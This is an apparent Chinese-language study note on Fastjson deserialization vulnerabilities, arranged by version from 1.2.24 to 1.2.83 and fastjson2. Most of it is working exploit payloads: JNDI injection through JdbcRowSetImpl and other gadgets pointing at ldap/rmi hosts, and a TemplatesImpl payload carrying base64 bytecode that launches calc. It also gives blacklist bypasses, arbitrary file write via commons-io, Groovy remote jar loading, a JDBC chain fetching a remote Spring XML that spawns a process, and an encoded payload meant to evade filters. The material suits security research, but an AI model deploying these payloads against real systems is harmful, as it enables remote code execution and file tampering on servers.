

https://y4er.com/posts/fastjson-learn/ 学习学习

## 原生反序列化

JSONArray可以从toString到getter调用

 [chain2_bridge.md](chain2_bridge.md#fastjson JSONArray)

## 不同的parse区别

1. parse(jsonStr)： 构造方法+Json字符串指定属性的setter()+特殊的getter()
2. parseObject(jsonStr)： 构造方法+Json字符串指定属性的setter()+所有getter() 包括不存在属性和私有属性的getter()
3. parseObject(jsonStr,Object.class)：和1一致


parseObject(String)的这个实际上是先执行parse，然后再toJSON(obj)，这里调用所有getter。

1和3类似

## setter调用

com.alibaba.fastjson.util.JavaBeanInfo#build


遍历类的Method，要求：

1. 方法名长度大于4
2. 非静态方法（setter一定是非静态的）
3. 返回值要么是void要么是反序列化的目标类本身
4. 参数数量为1
5. 名字是setXxx、set_xxx、setfxxx、setxXxx

并根据名字获取对应属性名，如果没有这个属性，会尝试加上is。后续实例化之后取出json中的属性名对应字符串，然后执行对应setter。

比如可以利用JdbcRowSetImpl.setAutoCommit实现JNDI

## getter调用

遍历类的所有方法，要求：

1. 名称为getXxx，长度>=4
2. 非静态方法
3. 参数数量为0
4. 返回值继承于Collection或Map，或者是AtomicBoolean、AtomicInteger、AtomicLong
5. 不应该有对应的setter方法

同理记录属性名以及该getter方法，如果json string中存在这个字段，则会执行这个getter。目的其实是先拿到这个字段（比如是Map类），然后再对这个Map设置相应的值。


刚好TemplateImpl#getOutputProperties满足这个要求


$ref 调用 getter

通过嵌套JSON方式调用getter

```json
{
    {
        "x":{
                "@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
                "driverClassLoader": {
                    "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
                },
                "driverClassName": "$$BCEL$$$l$8b$I$A$..."
        }
    }: "x"
}
```


## 版本<=1.2.24

### JdbcRowSetImpl JNDI

```
{"@type": "com.sun.rowset.JdbcRowSetImpl", "dataSourceName": "ldap://localhost:11389/#calc", "autoCommit": true}
```

由于是setter触发，三种parse方式都可以用。

### TemplatesImpl bytecode

_bytecodes等属性都是private，且没有setter，正常情况下无法设置，会导致执行getOutputProperties没有效果，因此需要设置`Feature.SupportNonPublicField`(三种都要)

```
{"@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl","_bytecodes":["yv66vgAAADQAMwoADQAcBwAdCAAeCAAfCQAMACAKACEAIggAIwoAIQAkBwAlBwAmCgAKACcHACgHACkBAAY8aW5pdD4BAAMoKVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQAJdHJhbnNmb3JtAQByKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO1tMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAKRXhjZXB0aW9ucwcAKgEApihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAg8Y2xpbml0PgEADVN0YWNrTWFwVGFibGUHACUBAApTb3VyY2VGaWxlAQAJRXZpbC5qYXZhDAAOAA8BABBqYXZhL2xhbmcvU3RyaW5nAQAFaGVsbG8BAAV3b3JsZAwAKwAsBwAtDAAuAC8BAARjYWxjDAAwADEBABNqYXZhL2lvL0lPRXhjZXB0aW9uAQAaamF2YS9sYW5nL1J1bnRpbWVFeGNlcHRpb24MAA4AMgEABEV2aWwBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQAKbmFtZXNBcnJheQEAE1tMamF2YS9sYW5nL1N0cmluZzsBABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7AQAYKExqYXZhL2xhbmcvVGhyb3dhYmxlOylWACEADAANAAAAAAAEAAEADgAPAAEAEAAAADcABQABAAAAFyq3AAEqBb0AAlkDEgNTWQQSBFO1AAWxAAAAAQARAAAADgADAAAAEgAEABMAFgAUAAEAEgATAAIAEAAAABkAAAADAAAAAbEAAAABABEAAAAGAAEAAAAZABQAAAAEAAEAFQABABIAFgACABAAAAAZAAAABAAAAAGxAAAAAQARAAAABgABAAAAHgAUAAAABAABABUACAAXAA8AAQAQAAAAVAADAAEAAAAXuAAGEge2AAhXpwANS7sAClkqtwALv7EAAQAAAAkADAAJAAIAEQAAABYABQAAAAwACQAPAAwADQANAA4AFgAQABgAAAAHAAJMBwAZCQABABoAAAACABs="],"_name":"whatever","_tfactory":{ },"_outputProperties":{ }}
```

fastjson对byte[]类型字段识别到是字符串会自动base64解码

## 后续绕过

后续的版本主要就是类似原理payload的绕过。后面默认禁用了AutoType，只有指定白名单类才能加载。取消白名单：

```
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
```

学习：https://y4er.com/posts/fastjson-learn/， https://www.javasec.org/java-vuls/FastJson.html#4-fastjson-1243

抄一下payload


## 1.2.25<=Fastjson<=1.2.41

需要绕黑名单。payload:

```json
{"@type":"Lcom.sun.rowset.JdbcRowSetImpl;","dataSourceName":"ldap://localhost:1389/#Calc", "autoCommit":true}
```

原理：

检查时的类名是"Lcom.sun.rowset.JdbcRowSetImpl;"，实际加载的时候会去掉开头的L和末尾的`;`

## 1.2.42

检查时先去掉了开头L和末尾`;`

黑名单开始用哈希，但是可以通过爆破来得到实际过滤的类（计算方式已知）。

https://github.com/LeadroyaL/fastjson-blacklist

绕过方式竟然是双写`LL;;`：

```
{"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;","dataSourceName":"ldap://localhost:1389/#Calc", "autoCommit":true}
```

检查时去掉了一层，实际加载的时候用的是检查去掉一层后的，再去掉一层，就得到了com.sun.rowset.JdbcRowSetImpl。加载的时候直接用原始的，就不会有这个问题了。

## 1.2.25<=Fastjson<=1.2.43

[数组绕过

```json
{
  "@type": "[com.sun.rowset.JdbcRowSetImpl"
  [
    {
      "dataSourceName": "ldap://192.168.50.2:50389/7ecb3a",
      "autoCommit": true
    }
  ]
}
```

fastjson的容错机制，下面这样或者其他奇怪的格式也可以。

```json
{
  "@type": "[com.sun.rowset.JdbcRowSetImpl"
  [
    {
      "dataSourceName": "ldap://192.168.50.2:50389/7ecb3a",
      "autoCommit": true
}
```


## 1.2.25<=Fastjson<=1.2.45

黑名单外的类，JNDI

```json
{
   "@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory",
   "properties":{"data_source":"ldap://127.0.0.1:1389/VulClass"}
}
```

## 通杀1.2.47

autoTypeSupport为false或true都可以用

```json
{
    "su18": {
        "@type": "java.lang.Class",
        "val": "com.sun.rowset.JdbcRowSetImpl"
    },
    "su19": {
        "@type": "com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName": "ldap://127.0.0.1:23457/Command8",
        "autoCommit": true
    }
}
```

checkAutoType逻辑问题

```java
public Class<?> checkAutoType(String typeName, Class<?> expectClass, int features) {
    // 类名非空判断
    if (typeName == null) {
        return null;
    }
    // 类名长度判断，不大于128不小于3
    if (typeName.length() >= 128 || typeName.length() < 3) {
        throw new JSONException("autoType is not support. " + typeName);
    }

    String className = typeName.replace('$', '.');
    Class<?> clazz = null;

    final long BASIC = 0xcbf29ce484222325L; //;
    final long PRIME = 0x100000001b3L;  //L

    final long h1 = (BASIC ^ className.charAt(0)) * PRIME;
    // 类名以 [ 开头抛出异常
    if (h1 == 0xaf64164c86024f1aL) { // [
        throw new JSONException("autoType is not support. " + typeName);
    }
    // 类名以 L 开头以 ; 结尾抛出异常
    if ((h1 ^ className.charAt(className.length() - 1)) * PRIME == 0x9198507b5af98f0L) {
        throw new JSONException("autoType is not support. " + typeName);
    }

    final long h3 = (((((BASIC ^ className.charAt(0))
                        * PRIME)
                       ^ className.charAt(1))
                      * PRIME)
                     ^ className.charAt(2))
        * PRIME;
    // autoTypeSupport 为 true 时，先对比 acceptHashCodes 加载白名单项
    if (autoTypeSupport || expectClass != null) {
        long hash = h3;
        for (int i = 3; i < className.length(); ++i) {
            hash ^= className.charAt(i);
            hash *= PRIME;
            if (Arrays.binarySearch(acceptHashCodes, hash) >= 0) {
                clazz = TypeUtils.loadClass(typeName, defaultClassLoader, false);
                if (clazz != null) {
                    return clazz;
                }
            }
            // 在对比 denyHashCodes 进行黑名单匹配
            // 如果黑名单有匹配并且 TypeUtils.mappings 里没有缓存这个类
            // 则抛出异常
            if (Arrays.binarySearch(denyHashCodes, hash) >= 0 && TypeUtils.getClassFromMapping(typeName) == null) {
                throw new JSONException("autoType is not support. " + typeName);
            }
        }
    }

    // 尝试在 TypeUtils.mappings 中查找缓存的 class
    if (clazz == null) {
        clazz = TypeUtils.getClassFromMapping(typeName);
    }

    // 尝试在 deserializers 中查找这个类
    if (clazz == null) {
        clazz = deserializers.findClass(typeName);
    }

    // 如果找到了对应的 class，则会进行 return
    if (clazz != null) {
        if (expectClass != null
            && clazz != java.util.HashMap.class
            && !expectClass.isAssignableFrom(clazz)) {
            throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
        }

        return clazz;
    }

    // 如果没有开启 AutoTypeSupport ，则先匹配黑名单，在匹配白名单，与之前逻辑一致
    if (!autoTypeSupport) {
        long hash = h3;
        for (int i = 3; i < className.length(); ++i) {
            char c = className.charAt(i);
            hash ^= c;
            hash *= PRIME;

            if (Arrays.binarySearch(denyHashCodes, hash) >= 0) {
                throw new JSONException("autoType is not support. " + typeName);
            }

            if (Arrays.binarySearch(acceptHashCodes, hash) >= 0) {
                if (clazz == null) {
                    clazz = TypeUtils.loadClass(typeName, defaultClassLoader, false);
                }

                if (expectClass != null && expectClass.isAssignableFrom(clazz)) {
                    throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                }

                return clazz;
            }
        }
    }
    // 如果 class 还为空，则使用 TypeUtils.loadClass 尝试加载这个类
    if (clazz == null) {
        clazz = TypeUtils.loadClass(typeName, defaultClassLoader, false);
    }

    if (clazz != null) {
        if (TypeUtils.getAnnotation(clazz,JSONType.class) != null) {
            return clazz;
        }

        if (ClassLoader.class.isAssignableFrom(clazz) // classloader is danger
            || DataSource.class.isAssignableFrom(clazz) // dataSource can load jdbc driver
           ) {
            throw new JSONException("autoType is not support. " + typeName);
        }

        if (expectClass != null) {
            if (expectClass.isAssignableFrom(clazz)) {
                return clazz;
            } else {
                throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
            }
        }

        JavaBeanInfo beanInfo = JavaBeanInfo.build(clazz, clazz, propertyNamingStrategy);
        if (beanInfo.creatorConstructor != null && autoTypeSupport) {
            throw new JSONException("autoType is not support. " + typeName);
        }
    }

    final int mask = Feature.SupportAutoType.mask;
    boolean autoTypeSupport = this.autoTypeSupport
        || (features & mask) != 0
        || (JSON.DEFAULT_PARSER_FEATURE & mask) != 0;

    if (!autoTypeSupport) {
        throw new JSONException("autoType is not support. " + typeName);
    }

    return clazz;
}
```

autoTypeSupport为false时，在检查黑白名单之前，会直接在TypeUtils.mappings和deserializers中获取对应的类，如果有，直接返回。而TypeUtils.mappings可以控制。

```json
{
    "su18": {
        "@type": "java.lang.Class",
        "val": "com.sun.rowset.JdbcRowSetImpl"
    },
    "su19": {
        "@type": "com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName": "ldap://127.0.0.1:23457/Command8",
        "autoCommit": true
    }
}
```

前一半会把JdbcRowSetImpl类加入mappings中，导致后续checkAutoType时候未对JdbcRowSetImpl进行黑白名单检查就直接通过了。

## <=1.2.62

黑名单绕过，需要xbean-reflect依赖。jackson里面加了这个黑名单（明文）之后迁移到fastjson也可用。

```json
{
    "@type": "org.apache.xbean.propertyeditor.JndiConverter",
    "AsText": "ldap://192.168.50.2:50389/7ecb3a"
}
```

## <= 1.2.66

黑名单绕过，需要有对应依赖

```
{"@type":"org.apache.shiro.jndi.JndiObjectFactory","resourceName":"ldap://192.168.80.1:1389/Calc"}
{"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","metricRegistry":"ldap://192.168.80.1:1389/Calc"}
{"@type":"org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup","jndiNames":"ldap://192.168.80.1:1389/Calc"}
{"@type":"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig","properties": {"@type":"java.util.Properties","UserTransaction":"ldap://192.168.80.1:1389/Calc"}}
```

## <=1.2.68

新增safemode，@type直接被禁用。在关闭safemode的前提下，通过expectClass功能来绕过。当expectClass不为空时，且typeClass是expectClass的子类，且二者不在黑名单中（前面有一轮黑名单检查），可以直接加载。

```java
// 如果找到了对应的 class，则会进行 return
if (clazz != null) {
    if (expectClass != null
        && clazz != java.util.HashMap.class
        && !expectClass.isAssignableFrom(clazz)) {
        throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
    }

    return clazz;
}
```

### throwable

```json
{
  "@type":"java.lang.Exception",
  "@type": "xxx",
  "attr": "value"
}
```

识别到要反序列化的类是Exception时，会调用checkAutoType(xxx, Throwable.class)加载第二个@type指定的类，因此可以加载任意throwable的之类，只要找到对应getter/setter/static block/constructor类可利用。

异常处理函数里面没有什么危险调用，比较难利用。

### autoClosable

autoClosable首先是在白名单中的，同理，可以执行autoClosable子类的相关方法。参数中的@type会自动识别expectClass都能够绕过白名单进行加载。

下面很多payload都需要用到有参构造函数来触发，由于fastjson用ASM去识别读取字节码，识别参数名，要求class 字节码带有调试信息且其中包含有变量信息。只有一小部分的jdk8包含变量名调试信息，如CentOS 下的 OpenJDK 8，jdk11之后比较普遍有，因此jre内部的类在很多环境下不太好执行带参构造函数。而很多的第三方库会有变量名调试信息，所以应该尽量少依赖jre内部类的带参构造函数。


####  任意文件写:

1. commons-compress

   这里需要用到FileOutputStream，就不好在jdk8中使用。

```json
{
    "@type": "java.lang.AutoCloseable",
    "@type": "org.apache.commons.compress.compressors.gzip.GzipCompressorOutputStream",
    "out": {
        "@type": "java.io.FileOutputStream",
        "file": "/path/to/target",
        "append": false
    },
    "parameters": {
        "@type": "org.apache.commons.compress.compressors.gzip.GzipParameters",
        "filename": "filecontent"
    }
}
```

2. commons-io

   来自https://bbs.chaitin.cn/topic/597，不依赖jre中的类，使用范围更广。

   2.2-2.6版本

```json
{
  "x": {
    "@type": "com.alibaba.fastjson.JSONObject",
    "input": {
      "@type": "java.lang.AutoCloseable",
      "@type": "org.apache.commons.io.input.ReaderInputStream",
      "reader": {
        "@type": "org.apache.commons.io.input.CharSequenceReader",
        "charSequence": "aaaaaa...(长度要大于8192，实际写入前8192个字符)"
      },
      "charsetName": "UTF-8",
      "bufferSize": 1024
    },
    "branch": {
      "@type": "java.lang.AutoCloseable",
      "@type": "org.apache.commons.io.output.WriterOutputStream",
      "writer": {
        "@type": "org.apache.commons.io.output.FileWriterWithEncoding",
        "file": "/tmp/pwned",
        "encoding": "UTF-8",
        "append": false
      },
      "charsetName": "UTF-8",
      "bufferSize": 1024,
      "writeImmediately": true
    },
    "trigger": {
      "@type": "java.lang.AutoCloseable",
      "@type": "org.apache.commons.io.input.XmlStreamReader",
      "is": {
        "@type": "org.apache.commons.io.input.TeeInputStream",
        "input": {
          "$ref": "$.input"
        },
        "branch": {
          "$ref": "$.branch"
        },
        "closeBranch": true
      },
      "httpContentType": "text/xml",
      "lenient": false,
      "defaultEncoding": "UTF-8"
    },
    "trigger2": {
      "@type": "java.lang.AutoCloseable",
      "@type": "org.apache.commons.io.input.XmlStreamReader",
      "is": {
        "@type": "org.apache.commons.io.input.TeeInputStream",
        "input": {
          "$ref": "$.input"
        },
        "branch": {
          "$ref": "$.branch"
        },
        "closeBranch": true
      },
      "httpContentType": "text/xml",
      "lenient": false,
      "defaultEncoding": "UTF-8"
    },
    "trigger3": {
      "@type": "java.lang.AutoCloseable",
      "@type": "org.apache.commons.io.input.XmlStreamReader",
      "is": {
        "@type": "org.apache.commons.io.input.TeeInputStream",
        "input": {
          "$ref": "$.input"
        },
        "branch": {
          "$ref": "$.branch"
        },
        "closeBranch": true
      },
      "httpContentType": "text/xml",
      "lenient": false,
      "defaultEncoding": "UTF-8"
    }
  }
}
```

2.7-2.8版本

```json
{
  "x": {
    "@type": "com.alibaba.fastjson.JSONObject",
    "input": {
      "@type": "java.lang.AutoCloseable",
      "@type": "org.apache.commons.io.input.ReaderInputStream",
      "reader": {
        "@type": "org.apache.commons.io.input.CharSequenceReader",
        "charSequence": "aaaaaa...(长度要大于8192，实际写入前8192个字符)",
        "start": 0,
        "end": 2147483647
      },
      "charsetName": "UTF-8",
      "bufferSize": 1024
    },
    "branch": {
      "@type": "java.lang.AutoCloseable",
      "@type": "org.apache.commons.io.output.WriterOutputStream",
      "writer": {
        "@type": "org.apache.commons.io.output.FileWriterWithEncoding",
        "file": "/tmp/pwned",
        "charsetName": "UTF-8",
        "append": false
      },
      "charsetName": "UTF-8",
      "bufferSize": 1024,
      "writeImmediately": true
    },
    "trigger": {
      "@type": "java.lang.AutoCloseable",
      "@type": "org.apache.commons.io.input.XmlStreamReader",
      "inputStream": {
        "@type": "org.apache.commons.io.input.TeeInputStream",
        "input": {
          "$ref": "$.input"
        },
        "branch": {
          "$ref": "$.branch"
        },
        "closeBranch": true
      },
      "httpContentType": "text/xml",
      "lenient": false,
      "defaultEncoding": "UTF-8"
    },
    "trigger2": {
      "@type": "java.lang.AutoCloseable",
      "@type": "org.apache.commons.io.input.XmlStreamReader",
      "inputStream": {
        "@type": "org.apache.commons.io.input.TeeInputStream",
        "input": {
          "$ref": "$.input"
        },
        "branch": {
          "$ref": "$.branch"
        },
        "closeBranch": true
      },
      "httpContentType": "text/xml",
      "lenient": false,
      "defaultEncoding": "UTF-8"
    },
    "trigger3": {
      "@type": "java.lang.AutoCloseable",
      "@type": "org.apache.commons.io.input.XmlStreamReader",
      "inputStream": {
        "@type": "org.apache.commons.io.input.TeeInputStream",
        "input": {
          "$ref": "$.input"
        },
        "branch": {
          "$ref": "$.branch"
        },
        "closeBranch": true
      },
      "httpContentType": "text/xml",
      "lenient": false,
      "defaultEncoding": "UTF-8"
    }
  }
}
```

不同版本的区别在于构造函数的参数名可能有更改，后续版本可能也需要更改。


#### 移动文件

SafeFileOutputStream来自依赖aspectjtools

```json
{
  "@type": "java.lang.AutoCloseable",
  "@type": "org.eclipse.core.internal.localstore.SafeFileOutputStream",
  "tempPath": "/path/to/original/file",
  "targetPath": "/path/to/you/want"
}
```

## 1.2.76 <= fastjson < 1.2.83

禁用了AutoCloseable, 因此用Throwable



就是说setter、public field、构造方法参数类型，在被识别后，会被加到缓存mapping中，且后续这些类加载时expectClass都是自己，只要没在黑名单中都可以通过checkAutoType的检查。

### groovy类加载

```json
// 第一次反序列化，会报错，因此需要分开，但此时需要的类已经被加载。
{
    "@type":"java.lang.Exception",
    "@type":"org.codehaus.groovy.control.CompilationFailedException",
    "unit":{}
}

// 第二次反序列化
{
  "@type":"org.codehaus.groovy.control.ProcessingUnit",
  "@type":"org.codehaus.groovy.tools.javac.JavaStubCompilationUnit",
  "config":{
    "@type": "org.codehaus.groovy.control.CompilerConfiguration",
    "classpathList":["http://127.0.0.1:8081/attack-1.jar"]
  },
  "gcl":null,
  "destDir": "/tmp"
}
```

会去请求远程地址获取 jar 并加载 远程Jar中的`META-INF/services/org.codehaus.groovy.transform.ASTTransformation` 文件中的类。


### jdbc 命令执行

需要 jython + PostgreSQL + spring-context 依赖：

json：

```
{
    "a":{
    "@type":"java.lang.Exception",
    "@type":"org.python.antlr.ParseException",
    "type":{}
    },
    "b":{
        "@type":"org.python.core.PyObject",
        "@type":"com.ziclix.python.sql.PyConnection",
        "connection":{
            "@type":"org.postgresql.jdbc.PgConnection",
            "hostSpecs":[
                {
                    "host":"127.0.0.1",
                    "port":2333
                }
            ],
            "user":"user",
            "database":"test",
            "info":{
                "socketFactory":"org.springframework.context.support.ClassPathXmlApplicationContext",
                "socketFactoryArg":"http://127.0.0.1:8090/exp.xml"
            },
            "url":""
        }
    }
}
```

exp.xml ：

```
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xmlns:p="http://www.springframework.org/schema/p"
       xsi:schemaLocation="http://www.springframework.org/schema/beans
        http://www.springframework.org/schema/beans/spring-beans.xsd">
   <bean id="pb" class="java.lang.ProcessBuilder">
    <constructor-arg value="calc.exe" />
    <property name="whatever" value="#{ pb.start() }"/>
   </bean>
</beans>
```

## <= 1.2.83

无需gadget，无需autoTypeSupport。safeMode是安全的

```
{"@type":"http:..localhost:18081.a"} 
```

会被解析为`http://localhost:18081/a.class`并加载，JDK8上直接RCE

- [ ] ndtd


## fastjson2 <= 2.0.62

原理与1.2.83类似

- [ ] ndtd

## tricks

fastjson支持unicode、hex编码，可以绕过简单的字符串模式匹配

```json
{"\u0040\u0074\u0079\u0070\u0065":"\x63\x6f\x6d\x2e\x73\x75\x6e\x2e\x72\x6f\x77\x73\x65\x74\x2e\x4a\x64\x62\x63\x52\x6f\x77\x53\x65\x74\x49\x6d\x70\x6c","\u0064\u0061\u0074\u0061\u0053\u006f\u0075\u0072\u0063\u0065\u004e\u0061\u006d\u0065":"rmi://localhost:1099/Exploit","\x61\x75\x74\x6f\x43\x6f\x6d\x6d\x69\x74":true}
```

即

```json
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}
```


反序列化链：

TemplateImpl
JdbcRowSetImpl
Tomcat BasicDataSource


## 参考链接

https://www.javasec.org/java-vuls/FastJson.html

https://disbb.com/archives/2024-04-11/1

https://y4er.com/posts/fastjson-learn

https://bbs.chaitin.cn/topic/597
